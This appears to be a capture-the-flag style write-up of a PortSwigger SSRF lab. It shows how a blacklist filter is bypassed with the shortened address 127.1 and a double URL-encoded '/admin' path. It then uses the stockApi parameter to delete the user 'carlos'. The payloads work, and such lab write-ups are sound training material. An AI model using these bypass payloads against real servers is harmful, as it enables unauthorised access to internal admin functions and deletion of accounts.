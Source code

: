 
### SSRF with blacklist-based input filter : PRACTITIONER

---


We visit any item and check its stock with BURPSUITE PROXY HTTP history on.

![](./screenshots/checkstock.png)

There is a `POST` request sent.

![](./screenshots/lab1-req.png)

> Trying to modify the `stockApi` parameter URL to access the `/admin` page.

Trying the normal payload.
```
http://127.0.0.1/admin
```

![](./screenshots/lab3-1.png)

> We see that it is blocked.

Changing the `127.0.0.1` to another representation of this IP address.
```
http://127.1/admin
```

> We see that is is also blocked.
 
Maybe the issue is with accessing the `/admin` page itself.
- Trying to URL encode the `/admin` path.
```
http://127.1/%61%64%6d%69%6e
```

It also doesn't work. Trying to double URL encode it.
```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

> Now it is sent to the server encoded once, so it can bypass the black-list.

![](./screenshots/lab3-2.png)

> We now have access to admin page.

Similar to [[Portswigger/SSRF/Lab 1|Lab 1]], we enter the delete page and the username parameter with carlos.
```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

Sending the request completes the lab.

![](./screenshots/lab3-3.png)

> A better way was to first bypass the `127.0.0.1`, and then bypass the encoding of the `/admin` page, and not do both at the same time.

---

